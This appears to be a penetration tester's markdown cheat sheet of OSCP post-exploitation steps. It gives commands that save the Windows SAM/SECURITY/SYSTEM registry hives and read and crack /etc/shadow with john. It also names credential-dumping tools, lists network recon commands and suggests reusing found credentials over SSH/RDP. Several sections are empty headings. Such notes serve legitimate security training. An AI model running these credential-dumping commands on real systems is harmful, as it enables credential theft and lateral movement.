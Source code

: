 # Loot, Booty & Plunder

## Tools

* Lazagne

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries then use secretdump.py or pwdump

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds & interesting data

#### Windows

#### Linux

```
ls -laR /home
ls -laR /root

# search for interesting files
```

### Check available services for data

### Re-check network config

#### Windows

#### Linux

```
netstat -antup
arp -a
```

### Crack hashes

### Use found creds on SSH/RDP across the network

## OSCP Proof Files

```
# Windows
type proof.txt && whoami && hostname && ipconfig

# Linux
cat proof.txt && whoami && hostname && ip addr
```
